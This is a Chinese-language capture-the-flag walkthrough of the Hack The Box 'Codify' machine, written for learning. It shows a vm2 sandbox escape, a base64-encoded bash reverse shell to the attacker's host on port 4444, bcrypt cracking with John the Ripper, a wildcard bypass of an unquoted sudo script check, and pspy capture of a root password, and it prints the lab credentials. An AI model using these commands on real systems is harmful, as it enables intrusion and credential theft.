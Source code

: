 ```yaml
---
tags:
  - HTB/Linux
  - HTB/Easy
---
```


## Summary

以简单的知识点也能构建出这么巧妙的一台，非常有趣。

### Relevant Skills

- nmap
- SQLite
- shell script
- JTR


### Attack Path Overview

![attack-path](./AttackPath/HTB-Codify.png){ width='450' }


## External Recon - nmap

自用扫描脚本：[工作流](https://github.com/TimeLess613/workflow-scan4HTB/blob/main/workflow-scan4HTB.sh)  
`curl -s https://raw.githubusercontent.com/TimeLess613/workflow-scan4HTB/main/workflow-scan4HTB.sh | sudo bash -s <HTB-IP>`

开放端口：
```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.52
3000/tcp open  http    Node.js Express framework
```

## 攻击路径规划·漏洞分析

常规靶机，22端口SSH的版本较新，优先度放低。先看80端口的Web。


## 80端口

- robots.txt：无
- 网页信息：点击 `About Us` 可得知其使用[vm2](https://github.com/patriksimek/vm2/releases/tag/3.9.16)。版本为3.9.16。
- 网页功能：一个测试Node.js代码的网页，有个Editor界面可编写代码运行测试。
- 子域枚举：无特别发现


## Initial Access

### PoC ([CVE-2023-30547](https://security.snyk.io/vuln/SNYK-JS-VM2-5426093))

根据vm2的版本号3.9.16，简单谷歌之后在github发现一个漏洞提交与PoC：<https://gist.github.com/leesh3288/381b230b04936dd4d74aaf90cc8bb244>  
复制其PoC代码粘贴到Editor运行后无反应，本身也不太懂Node.js，让ChatGPT解释了一下明白代码执行在 `execSync()` 处。遂将命令改为 `id` 后再次运行，成功显示结果：

![HTB-Codify-PoC](./evidence-img/HTB-Codify-PoC.png)

接下来就简单了，使用反弹shell的命令：`echo -n "YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC44LzQ0NDQgMD4mMQ==" |base64 -d|bash`

成功反连：

```bash
svc@codify:~$ id
uid=1001(svc) gid=1001(svc) groups=1001(svc)
svc@codify:~$ pwd
/home/svc
svc@codify:~$ ls
pwned  script.sh
```

## 横向移动

可以发现该用户没有user flag。看家目录有另一个用户：joshua，估计要横向移动。

一番探索后发现一个DB文件：
```bash
svc@codify:/var/www/contact$ file tickets.db 
tickets.db: SQLite 3.x database, last written using SQLite version 3037002, file counter 17, database pages 5, cookie 0x2, schema 4, UTF-8, version-valid-for 17
svc@codify:/var/www/contact$ which sqlite3
/usr/bin/sqlite3

sqlite> .tables
tickets  users  
sqlite> select * from users;
3|joshua|$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2
```

### 破解密码

```bash
└─$ echo 'joshua:$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2' > hash.txt

└─$ john --format=bcrypt --wordlist=/usr/share/wordlists/rockyou.txt  hash.txt 
 ... 
spongebob1       (joshua)     
 ...
```

`su` 或者 `ssh` 成功登陆joshua用户：

```bash
joshua@codify:~$ id
uid=1000(joshua) gid=1000(joshua) groups=1000(joshua)
```

## flag: user

```bash
joshua@codify:~$ ls
user.txt
joshua@codify:~$ cat user.txt 
808c ... f408
```


## Privilege Escalation

### Internal Recon

有当前用户的凭据所以先看了眼 `sudo -l`：

```bash
joshua@codify:~$ sudo -l
[sudo] password for joshua: 
Matching Defaults entries for joshua on codify:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User joshua may run the following commands on codify:
    (root) /opt/scripts/mysql-backup.sh
```

查看这个脚本：

```bash
joshua@codify:~$ ls -aihl /opt/scripts/mysql-backup.sh
401117 -rwxr-xr-x 1 root root 928 Nov  2 12:26 /opt/scripts/mysql-backup.sh
joshua@codify:~$ cat /opt/scripts/mysql-backup.sh
#!/bin/bash
DB_USER="root"
DB_PASS=$(/usr/bin/cat /root/.creds)
BACKUP_DIR="/var/backups/mysql"

read -s -p "Enter MySQL password for $DB_USER: " USER_PASS
/usr/bin/echo

if [[ $DB_PASS == $USER_PASS ]]; then
        /usr/bin/echo "Password confirmed!"
else
        /usr/bin/echo "Password confirmation failed!"
        exit 1
fi

/usr/bin/mkdir -p "$BACKUP_DIR"

databases=$(/usr/bin/mysql -u "$DB_USER" -h 0.0.0.0 -P 3306 -p"$DB_PASS" -e "SHOW DATABASES;" | /usr/bin/grep -Ev "(Database|information_schema|performance_schema)")

for db in $databases; do
    /usr/bin/echo "Backing up database: $db"
    /usr/bin/mysqldump --force -u "$DB_USER" -h 0.0.0.0 -P 3306 -p"$DB_PASS" "$db" | /usr/bin/gzip > "$BACKUP_DIR/$db.sql.gz"
done

/usr/bin/echo "All databases backed up successfully!"
/usr/bin/echo "Changing the permissions"
/usr/bin/chown root:sys-adm "$BACKUP_DIR"
/usr/bin/chmod 774 -R "$BACKUP_DIR"
/usr/bin/echo 'Done!'
```

是进行数据库的备份，执行时要求输入密码匹配 `$DB_PASS`，但是值得注意的是，if条件判断 `$DB_PASS == $USER_PASS` 并未用双引号包围变量。所以可以利用shell的通配符绕过认证——即可以在要求输入密码时输入“*”。

执行：

```bash
joshua@codify:~$ sudo /opt/scripts/mysql-backup.sh 
Enter MySQL password for root: 
Password confirmed!
mysql: [Warning] Using a password on the command line interface can be insecure.
Backing up database: mysql
mysqldump: [Warning] Using a password on the command line interface can be insecure.
-- Warning: column statistics not supported by the server.
mysqldump: Got error: 1556: You can't use locks with log tables when using LOCK TABLES
mysqldump: Got error: 1556: You can't use locks with log tables when using LOCK TABLES
Backing up database: sys
mysqldump: [Warning] Using a password on the command line interface can be insecure.
-- Warning: column statistics not supported by the server.
All databases backed up successfully!
Changing the permissions
Done!
```

注意到系统提示的 `[Warning] Using a password on the command line interface can be insecure.`

那么就用pspy看看，再次运行脚本后发现这一段：

```bash
 ...
023/11/11 04:51:08 CMD: UID=0     PID=34733  | /usr/bin/echo Backing up database: sys 
2023/11/11 04:51:08 CMD: UID=0     PID=34735  | /bin/bash /opt/scripts/mysql-backup.sh 
2023/11/11 04:51:08 CMD: UID=0     PID=34734  | /usr/bin/mysqldump --force -u root -h 0.0.0.0 -P 3306 -pkljh12k3jhaskjh12kjh3 sys
 ...
```


## flag: root

```bash
joshua@codify:~$ su -
Password: 
root@codify:~# ls
root.txt  scripts
root@codify:~# cat root.txt 
bb7c ... dbb4
```


---

## 总结·后记

2023/11/11

似乎第一次遇到所有知识点都撞到我会的范围里的……第一次觉得这才是Easy机器啊！